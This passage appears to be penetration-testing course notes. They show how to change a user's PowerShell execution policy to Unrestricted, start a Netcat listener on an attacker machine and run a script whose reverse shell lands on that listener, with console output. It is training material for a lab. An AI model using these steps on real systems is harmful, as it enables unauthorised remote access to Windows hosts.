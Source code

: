 + A quick review of the Microsoft documentation on PowerShell execution policies (linked in the error message), shows that these policies are set on a per-user rather than per-system basis
+ **NOTE**: Keep in mind that much like anything in Windows, the PowerShell Execution Policy settings can be dictated by one or more Active Directory GPOs. In those cases, it may be necessary to search for additional bypass vectors

Let's attempt to view and change the policy for our current user
+ Please note that in this instance, we have chosen to change the policy globally rather than on a per-script basis, which can be achieved by using the **-ExecutionPolicy Bypass** flag for each script when it is run
+ First, we are going to retrieve the current execution policy via the **Get-ExecutionPolicy -Scope CurrentUser** command and then set it to _Unrestricted_ via the **Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser** command
```
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined

PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```
+ The listing above shows that we have successfully changed the policy for our current user to _Unrestricted_

Before executing our script, we will start a Netcat listener on our Kali attacker machine to interact with our shell.
```
nc -lvnp 443
```

Now we will try to launch the PowerShell script:
```
PS C:\Users\offsec\Desktop> .\bypass.ps1

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     True     Byte[]                                   System.Array
124059648
124059649
...
```

The script executes without any problems and we receive a reverse shell on our attack machine
```
kali@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```
